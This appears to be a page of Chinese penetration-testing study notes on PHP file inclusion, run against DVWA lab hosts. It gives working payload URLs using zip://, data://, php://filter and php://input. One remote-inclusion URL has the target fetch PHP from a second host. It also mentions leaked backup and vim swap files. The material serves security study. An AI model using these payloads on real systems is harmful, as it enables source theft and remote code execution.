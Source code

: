 1 、现将要执行 php 代码写好并且命名为 a.txt，将 a.txt 进行 zip
压缩，命名为 a.zip，如果可以上传 zip 文件便直接上传，如若不能可将 a.zip
命名为 a.jpg 上传；

2 、将 a.php 直接压缩成 a.bz2

<http://127.0.0.1/LFI.php?file=zip://D:/phpstudy/PHPTutorial/WWW/a.zip%23a.txt>

**data**

allow_url_fopen: on allow_url_include: on

<http://192.168.6.128:8001/vulnerabilities/fi/?page=data://test/plain,>\<?php
phpinfo();?\>

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image52.png){width="5.760416666666667in"
height="3.2402351268591425in"}

<http://192.168.6.128:8001/vulnerabilities/fi/?page=data://test/plain;base64,PD9waHAgcGhwaW5mbygpPz4=>

**php伪协议**

php://filter

php://filter/read=convert.base64-encode/resource=index.php生成base64的index.php源码

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image53.png){width="5.760416666666667in"
height="3.2402351268591425in"}

php://input

php://input利用

![64228f2adb7d217f6ce61c41e71c29d0.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image54.jpeg){width="5.760416666666667in"
height="3.591901793525809in"}

http://

<http://192.168.222.144/dvwa/vulnerabilities/fi/?page=http://192.168.222.128/>phpinfo.php

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image55.png){width="5.760416666666667in"
height="3.2402351268591425in"}

或者是包含有命令执行的php使用

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image56.png){width="5.760416666666667in"
height="3.2402351268591425in"}

网页备份文件index.php.bak

Vim缓存
由于在使用vim时会创建临时缓存文件，关闭vim时缓存文件则会被删除，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容：

第一次产生的交换文件名为 .index.php.swp

如果当有人修改创建index.php文件我们就可以不停访问.index.php.swp这样就可以看见他的源代码（index前面必须有点）

.DS_Store泄露是什么？
